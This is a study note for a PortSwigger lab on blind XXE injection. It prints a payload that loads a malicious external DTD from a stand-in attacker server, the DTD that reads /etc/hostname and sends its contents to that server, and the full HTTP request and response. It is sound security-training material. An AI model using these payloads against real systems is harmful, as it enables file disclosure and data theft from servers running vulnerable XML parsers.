

## Blind XXE Injection

### What Is Blind XXE Injection?

Blind XXE injection occurs when the application does not return the results of the XML processing to the user. Instead, the attacker must infer the success of the attack through other means, such as timing or error messages.

### Why Is Blind XXE Dangerous?

Blind XXE is particularly dangerous because it can be used to exfiltrate data without the attacker receiving direct feedback. This makes it harder to detect and mitigate.

### Example of Blind XXE

In our lab, the application has a checkstock feature that parses XML input but does not display the result. To exploit this, we need to craft XML that reads the `/etc/hostname` file and exfiltrates its contents.

### Using a Malicious External DTD

A Document Type Definition (DTD) can be used to define external entities. By referencing a malicious DTD, we can control the behavior of the XML parser.

### Crafting the Malicious XML

Here is an example of how to craft the malicious XML:

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
    <!ENTITY % xxe SYSTEM "http://attacker-controlled-server/dtd">
    %xxe;
]>
<checkstock><productId>&exfil;</productId></checkstock>
```

In this example, `%xxe;` references a DTD hosted on an attacker-controlled server. The DTD can define further entities and behaviors.

### Attacker-Controlled Server

The attacker-controlled server hosts the DTD and handles the exfiltration of data. Here is an example of a simple DTD:

```dtd
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % exfil "<!ENTITY exfil SYSTEM 'http://attacker-controlled-server/exfil?data=%file;'>">
%exfil;
```

This DTD defines an entity `file` that reads the `/etc/hostname` file and an entity `exfil` that sends the contents to the attacker-controlled server.

### Full HTTP Request and Response

Here is the full HTTP request and response for the attack:

#### HTTP Request

```http
POST /checkstock HTTP/1.1
Host: vulnerable-app.example.com
Content-Type: application/xml

<?xml version="1.0"?>
<!DOCTYPE root [
    <!ENTITY % xxe SYSTEM "http://attacker-controlled-server/dtd">
    %xxe;
]>
<checkstock><productId>&exfil;</productId></checkstock>
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Date: Mon, 01 Jan 2024 00:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 0
Connection: close
Content-Type: text/html
```

### Expected Result

The attacker-controlled server receives the exfiltrated data and logs it. The server might respond with a simple acknowledgment:

```http
HTTP/1.1 200 OK
Date: Mon, 01 Jan 2024 00:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 14
Connection: close
Content-Type: text/plain

Data received successfully
```

### Mermaid Diagram: Attack Flow



---
<!-- nav -->
[[03-Lab 5 Exploiting Blind XXE to Exfiltrate Data Using a Malicious External DTD|Lab 5 Exploiting Blind XXE to Exfiltrate Data Using a Malicious External DTD]] | [[Web Security (PortSwigger)/08-XXE Injection/06-Lab 5 Exploiting blind XXE to exfiltrate data using a malicious external DTD/00-Overview|Overview]] | [[Web Security (PortSwigger)/08-XXE Injection/06-Lab 5 Exploiting blind XXE to exfiltrate data using a malicious external DTD/05-Common Pitfalls and Detection|Common Pitfalls and Detection]]
